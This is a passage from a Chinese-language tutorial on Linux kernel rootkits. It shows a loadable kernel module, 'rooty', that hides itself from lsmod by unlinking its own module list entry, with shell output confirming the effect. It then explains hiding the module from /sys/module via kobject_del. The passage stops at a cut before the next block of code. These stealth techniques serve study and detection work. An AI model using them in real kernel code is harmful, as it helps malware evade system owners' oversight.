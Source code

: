 ```c
static int rooty_init(void) {
    list_del_init(&__this_module.list);
    //printk("rooty: module loaded\n");
    return 0;
}
```

效果:

```shell
root@kali:~/Documents/rootkit# insmod rooty.ko
root@kali:~/Documents/rootkit# lsmod |grep rooty
root@kali:~/Documents/rootkit# modinfo rooty
modinfo: ERROR: Module rooty not found.
root@kali:~/Documents/rootkit# ls /sys/module/ |grep rooty
rooty
```

`lsmod`已经没法找到它了，但是在`/sys/module/`中依然存在:

### 3.2 `sys/module`隐藏

`sys/module`c存有加载内核对象的一般信息（比如参数）。所以通过查看`sysfs`也就是`sys/module`目录来发现现有模块是可行的。

`sysfs`是一个基于`ram`的文件系统，这个文件系统不仅可以把设备（devices）和驱动程序（drivers）的信息从内核输出到用户空间，也可以用来对设备和驱动程序做设置。通常，`sysfs`是挂在在/sys目录下的:

而`/sys/module`是一个`sysfs`的一个目录层次, 包含当前加载模块的信息.。`sysfs`与`kobject`层次紧密相连，它将`kobject`层次关系表现出来，使得用户空间可以看见这些层次关系。其中`kobj`是一个`struct kobject`结构体，而`kobject`是组成设备模型的基本结构。

所以原理大概是同上，我们通过`kobject_del()`函数删除我们当前模块的`kobject`就可以起到在`/sys/module`中隐藏`lkm`的作用。

代码:`kobject_del(&THIS_MODULE->mkobj.kobj);`

`&THIS_MODULE`的定义在`include/llinux/export.h`中，源码如下：

```c
extern struct module __this_module;
#define THIS_MODULE (&__this_module)
#else
#define THIS_MODULE ((struct module *)0)
```

可以看出THIS_MODULE的作用是指向当前模块。`&THIS_MODULE->mkobj.kobj`则代表的是struct module结构体的成员`struct module_kobject`的一部分，结构体的定义如下：

```c
struct module_kobject {
	struct kobject kobj;
	struct module *mod;
	struct kobject *drivers_dir;
	struct module_param_attrs *mp;
	struct completion *kobj_completion;
} __randomize_layout;
```

代码如下:
